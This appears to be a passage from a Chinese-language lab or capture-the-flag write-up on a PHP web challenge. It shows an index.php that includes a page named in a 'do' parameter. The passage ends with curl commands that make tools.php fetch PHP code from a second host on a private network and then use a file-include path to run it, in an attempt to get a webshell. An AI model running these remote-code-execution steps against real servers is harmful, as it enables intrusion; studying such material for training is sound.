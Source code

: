 ```php
            <ul>
                <li><a href="?do=album_1.php">アルバム 1: 《film A moment》 (2011年4月27日)</a></li>
                <li><a href="?do=album_2.php">アルバム 2: 《flowering》 (2012年6月27日)</a></li>
                <li><a href="?do=album_3.php">アルバム 3: 《contrast》 (2014年3月5日)</a></li>
                <li><a href="?do=album_4.php">アルバム 4: 《unravel》 (2014年7月23日)</a></li>
                <li><a href="?do=album_5.php">アルバム 5: 《Fantastic Magic》 (2014年8月27日)</a></li>
            </ul>
        </section>
    </main>

    <footer>
        <p>&copy; 2025 凛冽時雨. All rights reserved.</p>
    </footer>
</body>
</html>


```

index.php
```php
<?php
    $albums = array(
        'album_1.php',
        'album_2.php',
        'album_3.php',
        'album_4.php',
        'album_5.php',
        'album_6.php'
    );

    if(isset($_GET['do']) && in_array($_GET['do'], $albums)) {
        include $_GET['do']; 
    } else {
        include 'home.php';
    }
?>

```


尝试利用tools.php拿取webshell

```shell
curl -X POST -d "flowermagic=http://192.168.124.10/test.txt" "http://192.168.124.22/tools.php"
```

而test.txt文件内容为
```txt
file_put_contents('/tmp/proof.txt', 'RCE成功!');
```

```shell
curl "http://192.168.124.22/test.php?do=/tmp/proof.txt"
```
